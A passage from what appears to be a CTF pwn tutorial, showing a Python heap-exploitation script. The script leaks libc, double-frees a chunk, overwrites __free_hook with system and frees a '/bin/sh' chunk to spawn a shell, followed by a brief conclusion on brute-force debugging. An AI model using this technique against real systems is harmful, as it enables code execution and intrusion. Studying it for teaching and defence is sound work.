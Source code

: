 ```python
            stderr = int(ru('\n'), 16)
            
            libc_base = stderr - 4114048
            free_hook = libc_base + 4118760
            system = libc_base + 324672
            
            
            add(6, 0x30, 'ccc')
            ru('>')
            remove(1)
            ru('>')
            remove(1)
            ru('>')
            add(7, 0x30, p64(free_hook))
            ru('>')
            add(8, 0x30, 'aaa')
            ru('>')
            add(9, 0x30, p64(system))
            ru('>')
            add(10, 0x40, '/bin/sh\0')
            ru('>')
            remove(10)
            sl('ls')
            sl('ls')
            irt()
        except KeyboardInterrupt:
            break
        except EOFError:
            continue
```

# conclusion

this section shows you how to make brute force easier to debug and exploit. you may now understand some advantages of interactive pwnning.

thanks for reading.